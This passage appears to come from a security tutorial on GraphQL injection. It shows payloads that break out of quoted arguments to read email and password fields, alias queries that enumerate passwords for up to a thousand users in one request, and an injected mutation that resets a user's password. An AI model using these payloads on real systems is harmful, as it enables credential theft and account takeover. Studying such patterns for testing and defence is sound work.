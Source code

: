 **Injection**:
```
Normal: id=123
Inject: id="123") { email password } allUsers {
```

**Result**: Can break out of quotes to inject additional queries

### Pattern 5: Alias Query Injection

**What are Aliases?**
```graphql
query {
  user1: user(id: 1) { email }
  user2: user(id: 2) { email }
  user3: user(id: 3) { email }
}
```

**Injection for IDOR Brute Force**:
```graphql
query {
  user1: user(id: 1) { id email password }
  user2: user(id: 2) { id email password }
  user3: user(id: 3) { id email password }
  # ... repeat for user4 - user1000
}
```

**Impact**: Mass enumerate all users in one request

### Pattern 6: Mutation Injection

**Even More Dangerous** - Can change data, not just read it

**Vulnerable Code**:
```javascript
mutation {
  updateUser(id: ${userId}, email: "${newEmail}") {
    success
  }
}
```

**Injection**:
```
newEmail: test@test.com") { success } } mutation { updatePassword(id:1, newPassword:"hacked
```

**Resulting Query**:
```graphql
mutation {
  updateUser(id: 123, email: "test@test.com") {
    success
  }
}
mutation {
  updatePassword(id:1, newPassword:"hacked") {  # ← Injected mutation!
    success
  }
}
```
